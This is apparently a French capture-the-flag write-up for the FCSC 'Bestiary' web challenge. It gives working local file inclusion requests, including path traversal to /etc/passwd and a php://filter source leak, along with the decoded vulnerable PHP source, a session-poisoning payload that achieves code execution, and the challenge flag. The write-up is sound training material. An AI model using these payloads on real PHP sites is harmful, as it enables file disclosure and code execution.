






# Bestiary



`http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=../../../../../../../../../../../../etc/passwd`



`http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=php://filter/bzip2.compress/convert.base64-encode/resource=./index.php`



```bash
$ cat > outfile
PD9waHAKCXNlc3Npb25fc2F2ZV9wYXRoKCIuL3Nlc3Npb25zLyIpOwoJc2Vzc2lvbl9zdGFydCgpOwoJaW5jbHVkZV9vbmNlKCdmbGFnLnBocCcpOwo/Pgo8aHRtbD4KPGhlYWQ+Cgk8dGl0bGU+QmVzdGlhcnk8L3RpdGxlPgo8L2hlYWQ+Cjxib2R5IHN0eWxlPSJiYWNrZ3JvdW5kLWNvbG9yOiMzQ0IzNzE7Ij4KPGNlbnRlcj48aDE+QmVzdGlhcnk8L2gxPjwvY2VudGVyPgo8c2NyaXB0PgpmdW5jdGlvbiBzaG93KCkKewoJdmFyIG1vbnN0ZXIgPSBkb2N1bWVudC5nZXRFbGVtZW50QnlJZCgibW9uc3RlciIpLnZhbHVlOwoJZG9jdW1lbnQubG9jYXRpb24uaHJlZiA9ICJpbmRleC5waHA/bW9uc3Rlcj0iK21vbnN0ZXI7Cn0KPC9zY3JpcHQ+Cgo8cD4KPD9waHAKCSRtb25zdGVyID0gTlVMTDsKCglpZihpc3NldCgkX1NFU1NJT05bJ21vbnN0ZXInXSkgJiYgIWVtcHR5KCRfU0VTU0lPTlsnbW9uc3RlciddKSkKCQkkbW9uc3RlciA9ICRfU0VTU0lPTlsnbW9uc3RlciddOwoJaWYoaXNzZXQoJF9HRVRbJ21vbnN0ZXInXSkgJiYgIWVtcHR5KCRfR0VUWydtb25zdGVyJ10pKQoJewoJCSRtb25zdGVyID0gJF9HRVRbJ21vbnN0ZXInXTsKCQkkX1NFU1NJT05bJ21vbnN0ZXInXSA9ICRtb25zdGVyOwoJfQoKCWlmKCRtb25zdGVyICE9PSBOVUxMICYmIHN0cnBvcygkbW9uc3RlciwgImZsYWciKSA9PT0gRmFsc2UpCgkJaW5jbHVkZSgkbW9uc3Rlcik7CgllbHNlCgkJZWNobyAiU2VsZWN0IGEgbW9uc3RlciB0byByZWFkIGhpcyBkZXNjcmlwdGlvbi4iOwo/Pgo8L3A+Cgo8c2VsZWN0IGlkPSJtb25zdGVyIj4KCTxvcHRpb24gdmFsdWU9ImJlaG9sZGVyIj5CZWhvbGRlcjwvb3B0aW9uPgoJPG9wdGlvbiB2YWx1ZT0iZGlzcGxhY2VyX2JlYXN0Ij5EaXNwbGFjZXIgQmVhc3Q8L29wdGlvbj4KCTxvcHRpb24gdmFsdWU9Im1pbWljIj5NaW1pYzwvb3B0aW9uPgoJPG9wdGlvbiB2YWx1ZT0icnVzdF9tb25zdGVyIj5SdXN0IE1vbnN0ZXI8L29wdGlvbj4KCTxvcHRpb24gdmFsdWU9ImdlbGF0aW5vdXNfY3ViZSI+R2VsYXRpbm91cyBDdWJlPC9vcHRpb24+Cgk8b3B0aW9uIHZhbHVlPSJvd2xiZWFyIj5Pd2xiZWFyPC9vcHRpb24+Cgk8b3B0aW9uIHZhbHVlPSJsaWNoIj5MaWNoPC9vcHRpb24+Cgk8b3B0aW9uIHZhbHVlPSJ0aGVfZHJvdyI+VGhlIERyb3c8L29wdGlvbj4KCTxvcHRpb24gdmFsdWU9Im1pbmRfZmxheWVyIj5NaW5kIEZsYXllcjwvb3B0aW9uPgoJPG9wdGlvbiB2YWx1ZT0idGFycmFzcXVlIj5UYXJyYXNxdWU8L29wdGlvbj4KPC9zZWxlY3Q+IDxpbnB1dCB0eXBlPSJidXR0b24iIHZhbHVlPSJzaG93IGRlc2NyaXB0aW9uIiBvbmNsaWNrPSJzaG93KCkiPgo8ZGl2IHN0eWxlPSJmb250LXNpemU6NzAlIj5Tb3VyY2UgOiBodHRwczovL2lvOS5naXptb2RvLmNvbS90aGUtMTAtbW9zdC1tZW1vcmFibGUtZHVuZ2VvbnMtZHJhZ29ucy1tb25zdGVycy0xMzI2MDc0MDMwPC9kaXY+PGJyIC8+CjwvYm9keT4KPC9odG1sPgo=
^C
$ cat outfile | base64 -d > index.php
```

```php
<?php
        session_save_path("./sessions/");
        session_start();
        include_once('flag.php');
?>
<html>
<head>
        <title>Bestiary</title>
</head>
<body style="background-color:#3CB371;">
<center><h1>Bestiary</h1></center>
<script>
function show()
{
        var monster = document.getElementById("monster").value;
        document.location.href = "index.php?monster="+monster;
}
</script>

<p>
<?php
        $monster = NULL;

        if(isset($_SESSION['monster']) && !empty($_SESSION['monster']))
                $monster = $_SESSION['monster'];
        if(isset($_GET['monster']) && !empty($_GET['monster']))
        {
                $monster = $_GET['monster'];
                $_SESSION['monster'] = $monster;
        }

        if($monster !== NULL && strpos($monster, "flag") === False)
                include($monster);
        else
                echo "Select a monster to read his description.";
?>
</p>

<select id="monster">
        <option value="beholder">Beholder</option>
        <option value="displacer_beast">Displacer Beast</option>
        <option value="mimic">Mimic</option>
        <option value="rust_monster">Rust Monster</option>
        <option value="gelatinous_cube">Gelatinous Cube</option>
        <option value="owlbear">Owlbear</option>
        <option value="lich">Lich</option>
        <option value="the_drow">The Drow</option>
        <option value="mind_flayer">Mind Flayer</option>
        <option value="tarrasque">Tarrasque</option>
</select> <input type="button" value="show description" onclick="show()">
<div style="font-size:70%">Source : https://io9.gizmodo.com/the-10-most-memorable-dungeons-dragons-monsters-1326074030</div><br />
</body>
</html>
```

En essayant de reproduire le comportement du serveur en local:

```bash
$ mkdir -p /var/www/html/bestiary/sessions
$ chmod 777 /var/www/html/bestiary/sessions # pour le user www-data
$ cp index.php /var/www/html/bestiary/sessions/index.php
```

Je voulais verifier le contenu du dossier **sessions**:



Un fichier avec le contenu de notre `PHPSESSID`:




`http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=<?php echo $flag; ?>`



flag: `FCSC{83f5d0d1a3c9c82da282994e348ef49949ea4977c526634960f44b0380785622}`

## Liens utiles
- https://github.com/blinils/CTF/tree/master/CTF-VulnLabs/lampsecurity-CTF5
- https://ctf-wiki.github.io/ctf-wiki/web/php/php/
- [Hack2g2 - LFI, RFI & Exploitation par Alex GARRIDO](https://youtu.be/SUEPACBE7RQ)
- https://thibaud-robin.fr/writeups/santhacklaus-2018/archdrive/
- https://security.stackexchange.com/questions/196976/can-there-be-a-way-to-exploit-php-include-once-when-the-input-is-filtered
